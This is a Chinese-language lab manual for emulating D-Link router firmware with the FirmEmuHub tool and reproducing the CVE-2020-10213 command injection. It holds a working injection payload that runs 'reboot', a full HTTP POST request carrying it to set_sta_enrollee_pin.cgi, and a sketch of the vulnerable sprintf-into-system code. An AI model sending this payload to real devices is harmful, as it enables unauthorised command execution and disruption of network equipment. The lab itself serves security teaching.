

# 系统态固件仿真实验手册
---
## 1.实验目的
1. [x] 掌握系统态固件仿真的基本原理和技术
2. [x] 使用 FirmEmuHub 工具进行完整固件仿真
3. [x] 复现固件中的漏洞
---
## 2.实验环境
- 主机系统:Kali

- 硬件要求:
  - CPU:支持虚拟化技术
  - 内存:>4GB
  - 存储:≥10G空间
- 软件要求:
  - Git
  - Docker(确保能成功拉取到dockerhub上的镜像)
  - Python 3.8+
---
## 3.实验步骤
### 第一部分:系统态固件仿真环境搭建
克隆 FirmEmuHub 仓库
执行下面的代码克隆仓库：

```bash
git clone https://github.com/a101e-lab/FirmEmuHub.git
```

进入克隆的文件夹后使用`pip`安装环境：

```bash
pip install -r requirements.txt
``` 
由于kali的系统python环境受到了保护，所以这里需要新建一个新的环境并配置镜像源加速来安装依赖(最后介绍)，正常运行的效果如下图所示：


### 第二部分:固件仿真

**1.一键启动仿真环境**

执行下面的命令启动仿真环境：（注意该环境的启动需要`docker`作为前提，并且需要配置`docker`镜像加速）
```bash
sudo python3 emulation.py -b ./Benchmark/BM-2024-00003
```

正常启动下效果如下：


**2.Web界面访问**

并且可以直接在浏览器中访问`虚拟机ip:端口号`


密码为空，直接可以登入：


### 漏洞复现
#### 漏洞原理

本次实验将复现 `CVE-2020-10213` 命令注入漏洞。该漏洞是 `D-Link DIR-825 Rev.B 2.10` 版本中的一个命令注入漏洞。远程攻击者可通过向 `set_sta_enrollee_pin.cgi` 文件发送带有 `wps_sta_enrollee_pin` 参数的 `POST` 请求，利用该漏洞执行任意命令。 

```php
//代码表示
char cmd[256];
sprintf(cmd，"some command'%s'"，user_input);//用户输入直接拼接到命令中system(cmd);//执行命令
```

#### 漏洞复现步骤

**1.准备payload**

根据漏洞可知构建下面的一个payload：
```
a%27%24%28reboot%29%27b
```
URL解码后为：
```
a'$(reboot)'b
```

即在服务器中执行了一个重启指令

**2.发送请求**

构建下面的数据包请求并使用`burpsuit`或`yakit`等工具发送：

```
POST /set_sta_enrollee_pin.cgi / HTTP/1.1
Host: 192.168.131.9:32768
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 111

wps_sta_enrollee_pin=a%27%24%28reboot%29%27b&html_response_page=do_wps.asp&html_response_return_page=do_wps.asp
```
具体操作演示图下图：


**3.验证漏洞利用结果**

发送完毕后可以返回网页端验证，会发现网页无法加载


回到任意终端区尝试访问web地址也会返回空：



说明之前的指令`reboot`得到了执行，漏洞复现成功


---
## 遇到的问题与解决方法

`pip`安装环境失败：
解决方法为安装环境管理工具：

```bash
sudo apt install python3.13-venv
```


创建一个环境（iot）并应用
```bash
python3 -m venv iot
source iot/bin/activate
```


由于下载以依赖缓慢所以还要继续配置加速：

```bash
mkdir -p ~/.config/pip
vim ~/.config/pip/pip.conf
pip config list#验证配置

```


完成一系列操作后即可正常使用`pip`安装依赖环境

固件仿真环境启动失败：
这里我所经历的的失败是由于`docker`环境的问题,首先是使用的这个kali虚拟机比较纯净，还没有安装`docker`,然后由于`docker`的镜像加速没有配置导致无法访问拉取`dokcer hub`上的镜像

依次安装和配置完加速后再次运行
```bash
sudo python3 emulation.py -b ./Benchmark/BM-2024-00003
```
经过大概三分钟等待后即可正常启动